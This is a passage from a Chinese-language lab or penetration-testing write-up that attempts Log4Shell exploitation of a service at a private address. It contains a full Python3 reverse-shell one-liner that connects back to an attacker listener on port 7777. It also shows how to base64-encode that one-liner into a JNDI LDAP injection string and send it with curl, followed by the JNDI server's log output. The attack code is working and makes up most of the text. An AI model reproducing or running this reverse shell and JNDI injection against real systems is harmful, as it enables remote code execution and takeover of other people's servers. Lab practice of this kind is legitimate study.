 ![](./pic/强制GET收获监听初步进展.png)

换为尝试python3的反弹shell
```bash
# 生成 Python3 反弹 Shell 的 Base64 编码
payload='python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.8.132\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"'

# 编码并构造 Payload
encoded_payload=$(echo -n "$payload" | base64 -w 0 | sed 's/+/%252B/g; s/=/%253D/g')

# 发送请求
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_payload}}"
ok     
```

在JNDI中得到如下输出
```bash
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
```